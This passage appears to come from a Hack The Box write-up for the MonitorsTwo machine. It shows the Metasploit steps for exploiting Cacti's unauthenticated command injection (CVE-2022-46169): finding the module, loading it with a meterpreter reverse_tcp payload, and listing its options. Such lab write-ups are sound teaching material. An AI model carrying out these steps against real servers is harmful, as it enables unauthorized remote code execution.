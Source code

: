```
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ 
```

detailed information to the CVE can be found here:
* https://nvd.nist.gov/vuln/detail/CVE-2022-46169
* https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/
* https://defense.one/d/62-unauthenticated-rce-in-cacti-cve-2022-46169

## Exploiting Cacti
To exploit the vulnerability we can use for example Metasploit. Otherwise, we could use another PoC or write the exploit by ourselves.
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ msfconsole                                                                                                                                         1 ⨯

[...]

msf6 > search cacti

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/cacti_unauthenticated_cmd_injection  2022-12-05       excellent  Yes    Cacti 1.2.22 unauthenticated command injection
   1  exploit/unix/http/cacti_filter_sqli_rce                 2020-06-17       excellent  Yes    Cacti color filter authenticated SQLi to RCE
   2  exploit/unix/webapp/cacti_graphimage_exec               2005-01-15       excellent  No     Cacti graph_view.php Remote Command Execution
   3  exploit/windows/http/hp_sitescope_runomagentcommand     2013-07-29       manual     Yes    HP SiteScope Remote Code Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/hp_sitescope_runomagentcommand

msf6 > use 0
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > show options

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT               8080             yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
```